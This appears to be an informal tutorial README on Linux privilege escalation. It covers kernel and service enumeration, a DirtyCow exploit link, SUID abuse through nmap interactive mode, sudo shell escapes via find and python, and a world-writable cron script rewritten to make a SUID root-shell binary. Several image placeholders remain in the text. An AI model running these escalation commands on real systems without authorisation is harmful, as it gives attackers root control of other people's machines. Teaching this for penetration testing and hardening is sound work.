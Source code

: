 # Linux  Privilege Escalation

Hey there Learners , so lets start with basic Linux privilege escalation , so to get through this there are some important things which we really need to keep in mind that how a actual Linux system is what are the applications installed default , file permission , odd files , cron jobs , Kernal version , server information etc.

so to find these what you need to do :|

There are some basic commands to find them and pull out the culprits from a vulnerable linux machine.

For finding distribution type and kernel version of the linux machine:
```
cat /etc/issue 
cat /etc/*-release
cat /proc/version 
uname -a 
uname -mrs 
rpm -q kernel
```

These above commands just prints out the kernel version and distribution of a Linux machine 

to privilege escalation with these commands can let you find the right exploit for the kernel level vulnerability and distribuition

For example:
[https://www.exploit-db.com/exploits/40839] (dirtycow)

DirtyCow is known to be very popular exploit and works majority on un-patched linux distribution which were 2016 earlier version of linux distribution  	

# Exploiting Vulnerable Applications and Services 

So here its needs alot of enumeration and understand what certain commands on linux does and how they work so there are certain commands which can let you list out the vulnerable services and application running on a linux machine 

```
ps aux 
ps -ef
top 
cat /etc/services
```

These above commands list outs the services which are running and has user privilege so you need to use "grep" to sort out the services which are running by root :D

 ```
 ps aux | grep root 
 ps -ef | grep root
 ```
so they look simple but you need to check carefully and need to have a active mind while looking for these.

# Exploiting SUID  Executables 

SUID which stands for set user ID, is a Linux feature that allows users to execute a file with the permissions of a specified user. For example, the Linux ping command typically requires root permissions in order to open raw network sockets. By marking the ping program as SUID with the owner as root, ping executes with root privileges anytime a low privilege user executes the program.

> **> -rwsr-xr-x****–** The ‘s’ character instead of ‘x’ indicates that the SUID bit is set.

**image here_1

SUID is a feature that, when used properly, actually enhances Linux security. The problem is that administrators may unknowingly introduce dangerous SUID configurations when they install third party applications or make logical configuration changes.

A large number of sysadmins don’t understand as where to set SUID bit and where not. SUID bit should not be set especially on any file editor as an attacker can overwrite any files present on the system.


**Exploiting vulnerable SUID executable to get root access**

> $  **find / -perm -u=s -type f 2>/dev/null**  – It prints the executables which have SUID bit set

image 2 here

> **$ ls -la /usr/local/bin/nmap –**  Let’s confirm if nmap has SUID bit set or not.

image 3 here

Nmap has SUID bit set. A lot of times administrators set the SUID bit to nmap so that it can be used to scan the network efficiently as all the nmap scanning techniques does not work if you don’t run it with root privilege.

 However, there is a functionality in nmap older versions where you can run nmap in an interactive mode which allows you to escape to shell. If nmap has SUID bit set, it will run with root privilege and we can get access to ‘root’ shell through it’s interactive mode.

$  **nmap –interactive**  – runs nmap interactive mode  
$  **!sh**  – Lets you escape to the system shell from nmap shell

image 4 here



# Exploiting SUDO rights/user


If the attacker can’t directly get root access via any other techniques he might try to compromise any of the users who have SUDO access. Once he has access to any of the sudo users, he can basically execute any commands with root privileges.

Administrators might just allow the users to run a few commands through SUDO and not all of them but even with this configuration, they might introduce vulnerabilities unknowingly which can lead to privilege escalation.

A classic example of this is assigning SUDO rights to the find command so that another user can search for particular files/logs in the system. While the admin might be unaware that the ‘find’ command contains parameters for command execution, an attacker can execute commands with root privilege.

**Exploiting misconfigured SUDO rights to get root access**

> $ **sudo -l**  – Prints the commands which we are allowed to run as SUDO

image 5 here

We can run find, cat and python as SUDO. These all commands will run as root when run with SUDO. If we can somehow escape to the shell through any of these commands, we can get root access.

$ sudo find /home -exec sh -i \; – find command’s exec parameter can be used for arbitrary code execution.

image 6 here

> Never give SUDO rights to any of the programming language compiler, interpreter and editors.

> This technique can also be applied to vi, more, less, perl, ruby, gdb and others.

$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’ – spawns a shell

image 7 here

# Exploiting badly configured cron jobs

_Cron jobs, if not configured properly can be exploited to get root privilege.

1. Any script or binaries in cron jobs which are writable?  
2. Can we write over the cron file itself.  
3. Is cron.d directory writable?

Cron jobs generally run with root privileges. If we can successfully tamper any script or binary which are defined in the cron jobs then we can execute arbitrary code with root privilege.

Exploiting badly configured cron jobs to get root access

> $  **ls -la /etc/cron.d**  – prints cron jobs which are already present in cron.d

image 8 here

**$ find / -perm -2 -type f 2>/dev/null –** prints world writable files

$ **ls -la /usr/local/sbin/cron-logrotate.sh**  – Let’s confirm if the cron-logrotate.sh is world writable.

image 9 here

cron-lograte.sh is world writable and it is being run by logrotate cronjob. Any command we write/append in cron-lograte.sh would be executed as ‘root’.
 We write a C file in /tmp directory and compile it.

image 10

The rootme executable will spawn a shell.

**$ ls -la rootme**  – It tells us that it is owned by user ‘SHayslett’

image 11 here

**$ echo “chown root:root /tmp/rootme; chmod u+s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –** This will change the executable’s owner and group as root. It will also set the SUID bit.

Chown: The command chown, an abbreviation of change owner, is used on Unix and Unix-like operating systems to change the owner of file system files, directories.

Chmod : In Unix and Unix-like operating systems, chmod is the command and system call which is used to change the access permissions of file system objects.

$ **ls -la rootme** – After 5 minutes, the logrotate cronjob was run and cron-logrotate.sh got execute with root privilege.

$ **./rootme** – spawns a root shell.

image 11 here
